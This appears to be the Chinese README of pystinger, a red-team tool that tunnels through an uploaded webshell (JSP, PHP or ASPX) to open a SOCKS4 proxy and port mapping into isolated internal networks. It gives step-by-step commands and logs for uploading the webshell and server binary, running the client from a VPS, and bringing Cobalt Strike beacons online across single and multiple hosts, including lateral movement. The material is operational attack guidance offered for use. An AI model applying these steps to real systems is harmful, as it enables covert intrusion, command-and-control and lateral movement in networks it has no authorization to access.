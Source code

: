 # 毒刺(pystinger)

毒刺(pystinger)通过webshell实现**内网SOCK4代理**,**端口映射**.

可直接用于metasploit-framework,viper,cobalt strike上线.

主体使用python开发,当前支持php,jsp(x),aspx三种代理脚本.

原理介绍 : [红队攻防实践：不出网主机搭建内网隧道新思路](https://mp.weixin.qq.com/s/45AKbRS677fxynKW6Qfz7w)

# 使用方法

> 假设不出网服务器域名为 [http://example.com:8080](http://192.168.3.11:8080) ,服务器内网IP地址为192.168.3.11

## SOCK4代理


* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 stinger XXX!
* 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/stinger_server.exe```启动服务端
> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连
* vps执行```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* 此时已经在vps```127.0.0.1:60000```启动了一个```example.com```所在内网的**socks4a**代理
* 此时已经将目标服务器的```127.0.0.1:60020```映射到vps的```127.0.0.1:60020```

## cobalt strike单主机上线

* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 stinger XXX!
* 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/stinger_server.exe```启动服务端
> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连
* stinger_client命令行执行```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择输出信息RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为127.0.0.1
* 生成payload,上传到主机运行后即可上线

## cobalt strike多主机上线

* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 stinger XXX!
* 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/stinger_server.exe 192.168.3.11```启动服务端
> 192.168.3.11可以改成0.0.0.0
* stinger_client命令行执行```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为192.168.3.11(example.com的内网IP地址)
* 生成payload,上传到主机运行后即可上线
* 横向移动到其他主机时可以将payload指向192.168.3.11:60020即可实现出网上线

## 定制Header及proxy
* 如果webshell需要配置Cookie或者Authorization,可通过--header参数配置请求头

```--header "Authorization: XXXXXX,Cookie: XXXXX"```

* 如果webshell需要通过代理访问,可通过--proxy设置代理

```--proxy "socks5:127.0.0.1:1081"```


# 相关工具
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)

# 已测试
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# 更新日志
**2.0**
更新时间: 2019-09-29
* 将socks4代理服务移动到客户端
* 不再支持端口转发功能

**2.1**
更新时间: 2020-01-07
* 支持CS上线功能(即端口映射功能)
